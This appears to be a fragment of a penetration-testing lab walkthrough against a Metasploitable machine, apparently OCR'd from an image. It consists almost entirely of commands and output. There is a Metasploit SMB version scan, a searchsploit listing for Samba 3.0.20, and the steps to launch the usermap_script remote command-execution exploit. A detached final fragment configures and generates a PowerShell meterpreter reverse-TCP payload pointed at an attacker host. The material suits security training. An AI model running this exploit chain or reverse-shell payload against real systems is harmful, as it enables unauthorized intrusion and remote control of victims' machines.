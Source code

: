 ```
   THREADS  1                yes       The number of concurrent threads (max one per host)

msf6 auxiliary(scanner/smb/smb_version) > set RHOSTS <metasploitable ip>
RHOSTS => <metasploitable ip>
msf6 auxiliary(scanner/smb/smb_version) > run

[*] <metasploitable ip>:445      - SMB Detected (versions:1) (preferred dialect:) (signatures:optional)
[*] <metasploitable ip>:445      -   Host could not be identified: Unix (Samba 3.0.20-Debian)
[*] <metasploitable ip>:         - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed

```

```
searchsploit samba
┌──(kali㉿kali)-[~]
└─$ searchsploit Samba 3.0.20
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                                                                                                                                                              |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Samba 3.0.10 < 3.3.5 - Format String / Security Bypass                                                                                                                                                      | multiple/remote/10095.txt
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit)                                                                                                                            | unix/remote/16320.rb
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                       | linux/remote/7701.txt
Samba < 3.0.20 - Remote Heap Overflow                                                                                                                                                                       | linux/remote/7701.txt
Samba < 3.6.2 (x86) - Denial of Service (PoC)                                                                                                                                                               | linux_x86/dos/36741.py
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------ ---------------------------------
Shellcodes: No Results
```

```
msf6 auxiliary(scanner/smb/smb_version) > use exploit/multi/samba/usermap_script
msf6 exploit(multi/samba/usermap_script) > set RHOSTS <metasploitable ip>
RHOSTS => <metasploitable ip>
msf6 exploit(multi/samba/usermap_script) > run
```


[powershell/meterpreter/rev_tcp>>]: set SLEEP 42
[powershell/meterpreter/rev_tcp>>]: set LHOST <kali ip>
[powershell/meterpreter/rev_tcp>>]: generate